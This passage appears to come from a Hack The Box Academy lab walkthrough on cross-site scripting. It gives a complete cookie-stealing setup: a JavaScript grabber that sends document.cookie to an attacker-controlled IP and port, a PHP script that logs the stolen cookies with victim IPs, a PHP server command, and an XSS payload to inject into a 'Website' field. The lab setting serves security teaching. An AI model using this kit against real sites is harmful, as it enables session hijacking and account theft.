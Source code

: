 Now that students have identified the vulnerable field, they need to write a JS cookie grabber to a local file (named `script.js`) so that it get requested for:

Code: js

```js
new Image().src='http://PWNIP:PWNPO/index.php?c=' + document.cookie;
```

Students can use `cat` to save the cookie grabber into a file:

Code: shell

```shell
cat << 'EOF' > script.js
new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
EOF
```

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ cat << 'EOF' > script.js
> new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
> EOF
```

Subsequently, students need to write a PHP script (named `index.php`) that will split cookies in case many were received (and writes them to a file):

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Then, students need to start an HTTP server with PHP in the same directory where `script.js` and `index.php` are:

```shell
php -S 0.0.0.0:PWNPO
```
```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001

[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
```

At last, students need to use the XSS payload `'><script src=http://PWNIP:PWNPO/script.js></script>` in the "Website" field so that the user clicking the link will request `script.js` and get their cookie stolen:
